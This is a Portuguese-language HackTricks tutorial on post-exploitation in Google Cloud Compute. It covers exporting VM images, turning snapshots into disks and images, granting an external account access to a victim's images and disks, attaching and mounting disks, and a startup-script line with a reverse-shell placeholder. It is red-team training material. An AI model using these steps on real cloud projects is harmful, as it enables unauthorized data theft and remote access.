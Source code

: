 # GCP - Compute Post Exploitation

{% hint style="success" %}
Aprenda e pratique AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo no Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo no telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Compute

Para mais informações sobre Compute e VPC (Networking) confira:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Exportar & Inspecionar Imagens localmente

Isso permitiria a um atacante **acessar os dados contidos em imagens já existentes** ou **criar novas imagens de VMs em execução** e acessar seus dados sem ter acesso à VM em execução.

É possível exportar uma imagem de VM para um bucket e depois baixá-la e montá-la localmente com o comando:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Para realizar esta ação, o atacante pode precisar de privilégios sobre o bucket de armazenamento e, com certeza, **privilégios sobre cloudbuild**, pois é o **serviço** que será solicitado para realizar a exportação.\
Além disso, para que isso funcione, o codebuild SA e o compute SA precisam de permissões privilegiadas.\
O cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` precisa de:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

E o SA `<project-id>-compute@developer.gserviceaccount.com` precisa de:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Exportar e Inspecionar Snapshots e Discos localmente

Não é possível exportar snapshots e discos diretamente, mas é possível **transformar um snapshot em um disco, um disco em uma imagem** e, seguindo a **seção anterior**, exportar essa imagem para inspecioná-la localmente

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspecionar uma Imagem criando uma VM

Com o objetivo de acessar os **dados armazenados em uma imagem** ou dentro de uma **VM em execução** de onde um atacante **criou uma imagem,** é possível conceder acesso a uma conta externa sobre a imagem:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
e então crie uma nova VM a partir dele:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Se você não conseguir dar acesso à sua conta externa sobre a imagem, você pode lançar uma VM usando essa imagem no projeto da vítima e **fazer com que os metadados executem um reverse shell** para acessar a imagem adicionando o parâmetro:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspecionar um Snapshot/Disco anexando-o a uma VM

Com o objetivo de acessar os **dados armazenados em um disco ou snapshot, você pode transformar o snapshot em um disco, um disco em uma imagem e seguir os passos anteriores.**

Ou você pode **conceder acesso a uma conta externa** sobre o disco (se o ponto de partida for um snapshot, conceda acesso sobre o snapshot ou crie um disco a partir dele):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Anexar o disco** a uma instância:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Monte o disco dentro da VM:

1.  **SSH na VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Identifique o Disco**: Uma vez dentro da VM, identifique o novo disco listando os dispositivos de disco. Normalmente, você pode encontrá-lo como `/dev/sdb`, `/dev/sdc`, etc.
3. **Formate e Monte o Disco** (se for um disco novo ou bruto):
*   Crie um ponto de montagem:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Monte o disco:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Se você **não puder dar acesso a um projeto externo** ao snapshot ou disco, pode ser necessário **executar essas ações dentro de uma instância no mesmo projeto que o snapshot/disco**.

{% hint style="success" %}
Aprenda & pratique AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda & pratique GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo no Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo no telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
